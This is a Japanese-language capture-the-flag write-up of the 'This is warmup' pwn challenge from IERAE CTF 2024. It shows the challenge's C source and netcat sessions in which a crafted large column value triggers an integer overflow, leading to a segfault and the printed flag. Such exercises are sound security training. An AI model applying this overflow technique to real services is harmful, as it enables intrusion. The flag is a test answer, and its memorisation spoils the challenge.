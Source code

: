 # This is warmup:pwn

Trust me. If this problem is too difficult for you, I don't mind you burying me in the ground!
nc 104.199.135.28 33334

attachment\
[firectf_ierae-ctf-2024-prod-eh2j3_distfiles_this-is-warmup.tar.gz](https://github.com/colza12/ctf_writeup/blob/main/IERAE%20CTF%202024/pwn/This%20is%20warmup/firectf_ierae-ctf-2024-prod-eh2j3_distfiles_this-is-warmup.tar.gz)

Difficulty Level : warmup\
Point : 193\
Solved : 48

# Solution
とりあえず、`nc 104.199.135.28 33334`を実行してみる。
```
$ nc 104.199.135.28 33334
Enter number of rows: 2
Enter number of cols: 2
I made Ichimatsu design for you!
0 1
1 0
```
縦横の数字を入力すると、指定の大きさの市松模様を出力するプログラムとなっているらしい。
配布ファイルに含まれているchal.cを確認する。
```
int main() {
  // If you cause SEGV, then you will get flag
  signal(SIGSEGV, win);
  setbuf(stdout, NULL);
  
  unsigned long long int nrow, ncol;

  printf("Enter number of rows: ");
  scanf("%llu", &nrow);

  printf("Enter number of cols: ");
  scanf("%llu", &ncol);

  if (nrow * ncol < nrow) { // this is integer overflow right?
    puts("Don't hack!");
    exit(1);
  }

  char *matrix = malloc(nrow*ncol);
  if (!matrix) {
    puts("Too large!");
    exit(1);
  }
```
非常に親切に、セグメンテーションフォルトを起こすとフラグが取れることと、整数オーバーフローが起こる場所が記載されている。\
愚直に、大きい値を入力してみるが、フラグは出てこなかった。
```
$ nc 104.199.135.28 33334
Enter number of rows: 2
Enter number of cols: 9999999999999999999999999999999999999999999999999999999999999999
Too large!
```
`ncol`はlong long intと定義されているため、long long intの最大値周辺を攻める方針で、指示通りにオーバーフローさせる。\
long long intの最大値は、9223372036854775807なので、9223372036854775808以上の数字を入力していく。
```
$ nc 104.199.135.28 33334
Enter number of rows: 2
Enter number of cols: 9223372036854775808
Don't hack!

$ nc 104.199.135.28 33334
Enter number of rows: 2
Enter number of cols: 9223372036854775809
Well done!
IERAE{s33?n07_41w4y5_1_cr3a73_d1ff1cu1t_pr0b13m5}
```
さらに大きな数値でも試してみたが、`9223372039999999999`まで大きくなるとプログラムが動かなくなり、さらに大きくすると、`Too large!`と出力されるようになった。
flagが得られた。

`IERAE{s33?n07_41w4y5_1_cr3a73_d1ff1cu1t_pr0b13m5}`
